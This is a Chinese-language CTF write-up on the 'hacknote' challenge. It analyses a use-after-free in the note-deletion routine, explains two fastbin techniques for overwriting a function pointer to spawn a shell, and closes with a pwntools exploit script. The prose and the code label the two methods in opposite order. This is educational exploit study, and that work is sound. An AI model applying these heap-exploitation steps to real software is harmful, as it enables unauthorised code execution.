







## 0x001 程序分析

通过checksec查看程序开启的保护，可见只开启了NX保护。



来分析下程序的main函数



main函数中可以根据输入，进行3种操作，也就是堆的增加、删除、输出。

### add_note函数



先看下add_note函数，函数中首先有个堆块的计数器 **count**，只允许创建5个堆块。

接下来有个堆管理表 **notelist**，判断其中是否有值，如果没有，就先创建一个8字节的堆块，暂且称该堆块为管理块，该管理块的前四个字节存放 **print_note_content** 函数的指针，然后输入使用堆块长度，创建相应大小的堆区，并将该堆区地址存入管理块的后四个字节，最后使用read函数接收输入，写入使用堆区。


### del_note函数



判断堆管理表 **notelist** 中相应的索引是否有值，如果有，就将对应的两个堆区释放。

### print_note函数



判断堆管理表 **notelist** 中相应的索引是否有值，如果有，就将管理块的地址取出，调用管理块的前四个字节的 **print_note_content** 函数，参数为后四个字节的使用块地址。**print_note_content** 函数中调用puts函数打印。

## 0x002 漏洞分析

该程序的漏洞为Use After Free（UAF），也就是释放后重用漏洞。

因为在 **del_note** 函数中删除时，只使用了free释放堆空间，并没有将相关的地址设置为0，所以就算释放后，也可以再次访问到堆空间，就造成了释放后重用漏洞。

## 0x003 漏洞利用

根据上述的分析，每调用一次 **add_note** 函数新建note时，会申请两个堆区，一个是固定8字节，一个根据输入的大小确定。

### 第一个利用方式

第一个利用方式为fastbins double free。首先创建一个8字节的堆区，然后释放两次。
```
add_note(8, b"aaa")
del_note(0)
del_note(0)
```

此时堆区内容如下：



在释放两次后，可以看到在 **fastbins** 中形成了闭环 **chunk0->chunk1->chunk0**，如果现在新建一个大于8字节的堆区时，8字节的管理区会先从 **fastbins** 中拿走 **chunk0** 当作管理区，此时 **fastbins** 中的内容会变成 **chunk1->chunk0**，那么这时在新建一个等于8字节的堆区时，就会将 **chunk1** 分为管理区，**chunk0** 分作使用区，此时向使用区中写入数据的话，也就是向 **chunk0** 的管理区写数据，就可以修改 **print_note_content** 函数指针为 **magic** 函数指针，那么在调用 **print_note** 输出 **chunk0** 的内容时，就会调用到 **magic** 函数，获取系统权限。

### 第二个利用方式

首先可以申请两个大于8字节的堆区，然后释放它们。
```
add_note(16, b"aaa")
add_note(16, b"aaa")
del_note(0)
del_note(1)
```

现在的堆区情况如下：



可以看到，在两次释放之后四个堆块分到了 **fastbins** 的不同区中（这也是为什么要新建两个大于8字节的堆区）。在 **fastbins** 0x10分段中的两个地址为 **chunk0** 和 **chunk1** 的管理区，那么此时在申请一个等于8字节的 **chunk3** 时，就会将 **chunk1** 的管理区当作 **chunk3** 的管理区， **chunk0** 的管理区当作 **chunk3** 的使用区，那么现在对 **chunk3** 使用区
的操作就可以修改 **chunk0** 的管理区，将其中的 **print_note_content** 函数指针为 **magic** 函数指针，那么在调用 **print_note** 输出 **chunk0** 的内容时，就会调用到 **magic** 函数，获取系统权限。

最终两个利用方式的EXP如下：
```
from pwn import *

p = process("./hacknote")
elf = ELF("hacknote")

def add_note(size, payload):
    p.sendlineafter(b"Your choice :", str(1))
    p.sendlineafter(b"Note size :", str(size))
    p.sendlineafter(b"Content :", payload)

def del_note(idx):
    p.sendlineafter(b"Your choice :", str(2))
    p.sendlineafter(b"Index :", str(idx))

def print_note(idx):
    p.sendlineafter(b"Your choice :", str(3))
    p.sendlineafter(b"Index :", str(idx))

def getshell_1():
    add_note(16, b"aaa")
    add_note(16, b"aaa")
    del_note(0)
    del_note(1)

    add_note(8, p64(elf.symbols["magic"]))
    print_note(0)
    
def getshell_2():
    add_note(8, b"aaa")
    del_note(0)
    del_note(0)
    
    add_note(16, b"aaa")
    add_note(8, p64(elf.symbols["magic"]))
    print_note(0)

getshell_1()
p.interactive()
```